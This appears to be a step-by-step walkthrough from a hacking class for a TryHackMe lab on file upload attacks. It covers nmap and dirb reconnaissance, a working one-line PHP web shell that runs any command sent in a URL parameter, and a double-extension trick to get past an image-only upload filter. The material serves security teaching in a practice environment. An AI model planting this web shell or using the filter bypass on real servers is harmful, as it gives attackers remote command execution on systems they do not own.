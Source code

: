 # HackerFrogs AfterSchool Network Hacking Session 8
## Session Topic: File Upload Attacks /w TryHackMe
# Challenge 1: TryHackMe 25 Days of Cyber Security Room (Task 4)
## TryHackMe Link
https://tryhackme.com/room/learncyberin25days
### YouTube Walkthrough Link
N/A
### Method of Solve
* Step 1: Click on the Task 4 header in the TryHackMe page, then click on the green "Start Machine" button
* Step 2: go to the top of the webpage, and click on the "Start AttackBox" button
* Step 3: wait 2 minutes for the AttackBox to finish loading
* Step 4: after the AttackBox finishes loading, at the bottom-middle of the TryHackMe webpage click on the "View in full screen" button, which looks like two arrows pointing away from each other
* Step 5: in the AttackBox desktop, click on the terminal shortcut button (at the top of the desktop) to open a terminal
* Step 6: in the AttackBox desktop, click on the orange Firefox (at the top of the desktop) to open a web browser
## Part 1: Doing Initial Scans
We will simulate a typical network hacking exercise by doing Nmap and directory busting scans.
* Step 1: In the TryHackMe webpage, note the IP address in the Target Machine Information header. We'll refering to that as the `<IP_address>`
* Step 2: In the AttackBox terminal use the following command to scan the server with Nmap:
```
nmap -vv -sV -sC -T5 <IP_address>
```
The output lets us know that port 80, HTTP, unencrypted websites, are open on the server
* Step 3: Passed on the previous command, we can now do a directory busting attack to determine existing directories on the webserver with Dirb:
```
dirb http://<IP_address>
```
The output of this command lets us know that the /uploads directory exists on the webserver. We'll need this information for later
## Part 2: Investigating the webpage
In this section, we'll be looking at the webpage on the remote server we've been scanning
* Step 1: In the AttackBox web browser, navigate to the following URL:
http://<IP_address>
* Step 2: In the AttackBox web browser, add the following to the end of the URL
```
?id=ODIzODI5MTNiYmYw
```
We see here that there's an upload function the webpage
## Part 3: Attempting to upload an undisguised web shell file
In this section we will upload a webshell file to the remote server
* Step 1: Use the nano text editor to create a webshell file to upload to the server
```
nano webshell.php
```
* Step 2: Copy the following code and paste it into the text editor
```
<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>
```
* Step 3: Save the file by using the `ctrl+x` keyboard shortcut, then `y`, then press the `enter` key
* Step 4: On the AttackBox web browser, click on the `Select` button, then select the `webshell.php file`, which should be in the /root directory, then click `open`
* Step 5: Confirm the upload by clicking on the `Submit` button
Note that the file was unable to be uploaded, because the app is expecting a picture file (jpg, png, gif, etc)
# Part 4: Modifying the webshell file to bypass the web app upload filter
In this section, we attempt to fool the web app into uploading our webshell file
* Step 1: In the AttackBox terminal, rename the webshell file with the following command
```
mv webshell.php webshell.jpg.php
```
This change to the name of the file could be enough to fool the app into uploading the file
* Step 2: On the AttackBox web browser, click on the `Select` button, then select the `webshell.php file`, which should be in the /root directory, then click `open`
* Step 3: Confirm the upload by clicking on the `Submit` button
This time, we've successfully uploaded the file
* Step 4: Recall the fact that the Dirb scan from earlier indicated an `/uploads` directory exists
# Part 5: Accessing and using the webshell
* Step 1: Navigate to the following endpoint in the app `/uploads/webshell.jpg.php`, as in http://<IP_address>/uploads/webshell.jpg.php
You should see a blank page. This is normal. We can run commands through the URL's parameters
* Step 2: On the end of the webpage's URL, add this to the end: `?cmd=whoami`
If the webshell is working, you should see the output `apache`
* Step 8: From here, we can run any commands we want on the uploaded webshell, substituting out `whoami` with any regular Linux command
